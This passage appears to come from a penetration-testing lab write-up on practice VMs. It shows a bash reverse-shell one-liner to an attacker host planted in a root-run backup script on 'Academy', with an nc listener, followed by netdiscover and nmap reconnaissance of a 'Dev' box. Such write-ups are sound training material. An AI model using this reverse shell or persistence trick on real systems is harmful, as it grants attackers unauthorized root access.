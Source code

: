   ```shell
  #in our Kali Linux terminal
  nc -nvlp 8081 #listening on port 8081 for reverse shell to work

  #in the Academy machine through 'grimmie'
  nano backup.sh
  #edit the script and remove all lines and paste the one-liner; make sure to edit IP address and port
  #bash -i >& /dev/tcp/10.0.2.7/8081 0>&1
  ```

  * This method works and we get access as root on Academy. We can view the flag.txt as well.

---

## Dev

---

* Scanning using netdiscover and nmap:

```shell
netdiscover -r 10.0.2.0/24
#gives IP of Dev as 10.0.2.9

nmap -T4 -p- -A 10.0.2.9
```

* nmap gives the following info:

```shell
22/tcp - open - ssh - OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
ssh-hostkey: 
  2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
  256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)

80/tcp - open - http - Apache httpd 2.4.38 (Debian)
  http-server-header: Apache/2.4.38 (Debian)
  http-title: Bolt - Installation error

111/tcp - open - rpcbind - 2-4 (RPC #100000)

2049/tcp - open - nfs_acl - 3 (RPC #100227)

8080/tcp - open - http - Apache httpd 2.4.38 (Debian)
  http-open-proxy: Potentially OPEN proxy.
  Methods supported:CONNECTION
  http-server-header: Apache/2.4.38 (Debian)
  http-title: PHP 7.3.27-1~deb10u1 - phpinfo()

39265/tcp - open - nlockmgr - 1-4 (RPC #100021)
53457/tcp - open - mountd   - 1-3 (RPC #100005)
55407/tcp - open - mountd   - 1-3 (RPC #100005)
55989/tcp - open - mountd   - 1-3 (RPC #100005)

MAC Address: 08:00:27:B6:FC:7A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
```

